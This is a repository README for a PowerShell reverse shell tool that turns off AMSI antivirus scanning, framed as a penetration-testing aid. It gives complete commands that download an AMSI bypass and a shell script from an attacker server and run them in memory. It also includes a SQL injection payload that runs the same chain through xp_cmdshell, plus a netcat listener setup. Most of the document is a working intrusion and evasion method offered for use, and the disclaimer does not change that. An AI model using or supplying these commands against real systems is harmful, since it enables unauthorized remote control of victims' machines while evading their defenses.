 # PowerShell Reverse Shell with AMSI Bypass

This repository contains a PowerShell script to establish a reverse shell connection while bypassing AMSI (Antimalware Scan Interface) to evade detection by antivirus software. The script is designed for educational purposes and penetration testing in authorized environments.

---

## Table of Contents
1. [Description](#description)
2. [Requirements](#requirements)
3. [Usage](#usage)
4. [How It Works](#how-it-works)
5. [Why Linkin Park?](#why-linkin-park)
6. [Disclaimer](#disclaimer)

---

## Description

This project demonstrates how to:
1. Bypass AMSI to disable antivirus detection.
2. Download and execute a PowerShell reverse shell script from a remote server.
3. Establish a reverse shell connection to a specified IP and port.

The repository includes:
- `amsi.txt`: A script to bypass AMSI.
- `shell.ps1`: A PowerShell reverse shell script.

---

## Requirements

To use this project, you need:
- A Windows machine with PowerShell installed.
- A remote server to host the `amsi.txt` and `shell.ps1` files (e.g., a Python HTTP server).
- A listener on the attacker's machine to receive the reverse shell connection (e.g., `netcat`).

---

## Usage

### 1. Set Up the HTTP Server
Host the `amsi.txt` and `shell.ps1` files on a remote server. You can use a Python HTTP server for this:

```bash
python -m http.server 8000
```

### 2. Start a Listener
On the attacker's machine, start a listener to receive the reverse shell connection:

```bash
rlwrap -cAr nc -lvp 443
```

### 3. Execute the Payload

#### **From the Target Machine (CMD)**:
On the target machine, run the following command in CMD:

```cmd
powershell -ExecutionPolicy Bypass -NoProfile -Command "Invoke-Expression (Invoke-WebRequest -Uri 'http://192.168.1.94/amsi.txt' -UseBasicParsing | Select-Object -ExpandProperty Content); $scriptContent = [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri 'http://192.168.1.94/shell.ps1' -UseBasicParsing).Content); Invoke-Expression $scriptContent"

or this one:

powershell -nop -ep Bypass -c "iex (iwr 'http://192.168.1.94/amsi.txt' -UseBasicParsing).Content; $s=[Text.Encoding]::UTF8.GetString((iwr 'http://192.168.1.94/shell.ps1' -UseBasicParsing).Content); iex $s"

```

Replace `192.168.1.94` with the IP address of your HTTP server.

---

#### **From an SQL Injection (Burp Suite)**:
If you have an SQL Injection vulnerability where you can execute commands using `xp_cmdshell`, run the following command from Burp Suite:

```sql
parameter=test'; EXEC xp_cmdshell 'powershell IEX (Invoke-WebRequest -Uri \"http://192.168.1.94/amsi.txt\" -UseBasicParsing).RawContent ; $scriptContent = [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri \"http://192.168.1.94/shell.ps1\" -UseBasicParsing).Content); Invoke-Expression $scriptContent';--
```

**Steps**:
1. Replace `http://192.168.1.95` with the IP address of your HTTP server.
2. Convert the command to URL encoding using **Ctrl + U** in Burp Suite.
3. Send the request to execute the payload.

---

## How It Works

1. **AMSI Bypass**:
   - The `amsi.txt` script disables AMSI, allowing the execution of scripts that would otherwise be blocked by antivirus software.

2. **Reverse Shell**:
   - The `shell.ps1` script establishes a TCP connection to the attacker's machine and provides an interactive shell.

3. **Remote Execution**:
   - The payload is downloaded and executed directly in memory, reducing the chances of detection by endpoint protection tools.

---

## Why Linkin Park?

The variables in the `shell.ps1` script are named after members of the band **Linkin Park** as a tribute to their music and legacy. Here's the breakdown:
- `$chester`: Chester Bennington, the iconic lead vocalist.
- `$mike`: Mike Shinoda, the band's co-lead vocalist, rapper, and multi-instrumentalist.
- `$shinoda`: Another nod to Mike Shinoda.
- `$bennington`: Chester Bennington's last name.
- `$hahn`: Joe Hahn, the band's DJ and creative director.
- `$phoenix`: Phoenix Farrell, the bassist.
- `$bourdon`: Rob Bourdon, the drummer.

This naming convention adds a personal touch to the script while maintaining its functionality.

---

## Disclaimer

This project is intended for educational and authorized penetration testing purposes only. Do not use this tool for illegal or malicious activities. The author is not responsible for any misuse of this software. Always ensure you have proper authorization before using this tool in any environment.
